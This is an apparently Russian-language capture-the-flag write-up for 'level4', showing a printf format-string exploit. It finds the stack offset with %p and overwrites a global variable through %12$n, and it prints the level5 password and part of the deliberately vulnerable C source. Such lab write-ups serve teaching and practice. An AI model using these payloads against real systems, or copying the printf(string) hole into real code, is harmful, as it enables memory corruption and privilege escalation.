Воспользуюсь командой для вычисления номера аргумента `m` в `printf()`:
```sh
echo -e $(python -c 'print "AAAA" + " %p" * 1000') | ./level4 | tr " " "\n" | grep -n 0x41414141
13:0x41414141

# tr " " "\n"     разделит строку по пробелам и каждое следующее значение стека перенесет на новую строку
# grep -n 0x41414141 отфильтрует нужную строку с указанием ее номера

# Поскольку нумерация начинается с AAAA (это будет первая выведенная строка), а печать стека начинается со второй строки, 
# необходимо вычесть 1               (13-1= 12  0x41414141)
# наша глобальная переменная m под номером  12. Значит %12$n
```
Теперь с [помощью модификатора](https://www.opennet.ru/man.shtml?topic=printf&category=3&russian=0) `%n` перезаписываю значение `m`:
1. Адрес `m` занимает 4 байта
2. Аналогично level3 необходимо заполнить оставшиеся 16930116-4 = 16930112 байт каким-то символом,
но способ как в level3 не сработает - слишком огромная строка передавалась бы. Чтобы не передавать строку извне, можно задать длинную строку изнутри `printf()` - всего лишь задать ширину поля 16930112.
3. Запускаю:

```sh
#                           адрес m         заполнитель     позиция введенного
#                           4 байта         16930112 байт   адреса в стеке
echo $(python -c 'print "\x10\x98\x04\x08" + "%16930112d" + "%12$n"') | ./level4
# ||
# \/
# -1208015184
# 0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```
Уровень пройден!
```sh
su level5
# Password: 0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```

<details> 
  <summary> Под этой строкой в развороте исходник и команда для компиляции: </summary>
<pre>

#include "stdlib.h"
#include "unistd.h"
#include "stdio.h"
#include "string.h"
#define FILE_PASS "/bin/cat /home/user/level5/.pass"

int m;

void  p(char *string) {

    printf(string);

}
